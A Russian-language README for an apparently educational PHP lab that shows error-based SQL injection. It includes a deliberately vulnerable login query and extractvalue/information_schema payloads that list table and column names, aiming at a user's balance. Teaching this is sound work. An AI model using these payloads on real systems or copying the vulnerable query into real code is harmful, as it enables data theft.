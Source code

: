 # SQL injection on PHP

Пример применения sql инъекций на PHP. Эта работа создана в образовательных целях и показывает программистам как не надо писать код. Данный сайт является примером эксплуатации уязвимости типа error-based. В основе примера обычная форма авторизации на сайте, состоящая из двух полей логина и пароля.

<p>
  <a href="LICENSE">
    <img src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square" alt="Software License" />
  </a>
</p>

## Требуется

* Запущеный OpenServer или аналоги с PHP и MySQL
* GIT
* Browser или Postman

## Установка и подготовка к запуску

1.  Сохранить репозиторий на своём ПК

```
git clone https://github.com/chartyom/sql-injection-example-php.git
```

2.  Сформировать базу данных открыв в браузере

```
/init_db.php
```

3.  Открыть основной файл

```
/index.php
```

## Приступим

Как выглядит уязвимый код на PHP

```php
$login = $_POST['login'];
$password = $_POST['password'];
$sql = "SELECT id FROM users WHERE login = '$login' and password = '$password'";
if ($result = mysqli_query($link, $sql)) {
    if (mysqli_num_rows($result)) {
        $authenticated = true;
    } else {
        $error_message = 'Не правильные логин или пароль';
    }
} else {
    $error_message = mysqli_error($link);
}
```

1.  Пробуем авторизоваться, подставив в любое поле кaвычку (‘), в результате чего получаем ошибку.

В результате получаем такой конечный вид запроса к базе данных, который вызывает ошибку:

```sql
SELECT id FROM users WHERE login = ''' and password = '';
```

2.  Получаем название первой таблицы из текущей базы данных:

```sql
' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) -- comment
```

для получения второй и последующих названий таблиц необходимо поменять `limit 0,1` на `limit 1,1` и тд.

3.  Далее, зная название существующих таблиц в базе данных, требуется найти названия атрибутов:

```sql
' and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='название таблицы' limit 0,1))) -- comment
```

для получения второго и последующих названий атрибутов необходимо поменять `limit 0,1` на `limit 1,1` и тд.

4.  Конечная цель получить текущий баланс баллов пользователя.

## License

The MIT License (MIT). Please see [License File](LICENSE.md) for more information.

[link-author]: https://github.com/chartyom
